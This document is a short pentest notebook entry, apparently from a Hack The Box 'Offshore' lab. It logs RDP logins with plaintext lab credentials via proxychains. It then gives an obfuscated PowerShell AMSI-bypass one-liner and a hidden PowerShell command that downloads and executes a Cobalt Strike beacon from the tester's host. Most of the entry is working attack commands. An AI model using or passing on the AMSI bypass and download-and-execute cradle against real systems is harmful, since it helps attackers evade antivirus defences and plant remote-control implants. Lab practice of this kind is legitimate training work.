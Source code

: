 utilized credentials found here to xfreerdp on
[[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/logins.xlsx]]
```bash
[root💀~/offshore/ms01/scans] [10.10.14.39] [2023-10-20 15:01:55]                                                                                        
 └─╼ # proxychains xfreerdp /u:ned.flanders_adm /d:corp.local /p:Lefthandedyeah! /v:172.16.1.36
 proxychains rdesktop -d corp.local -u ned.flanders_adm -p Lefthandedyeah! 172.16.1.36
```
once on in order to get a beacon to cobaltstrike server had to utilize an *amsi bypass*
#amsibypass 
https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4
```powershell
#obfuscated oneliner amsi bypass
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```
ran command below to get beacon after *amsi bypass*
#cobaltstrike #beacon
```bash
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.14.39:80/a'))"
```
![[Penetration Testing v2/htb_pro_Labs/offshore/3. 172.16.1.36 -CORP-WSADM/screenshots/Pasted image 20231020162744.png]]

BloodHOUND! next, CORE Impact, unable to session pass to meterpreter. 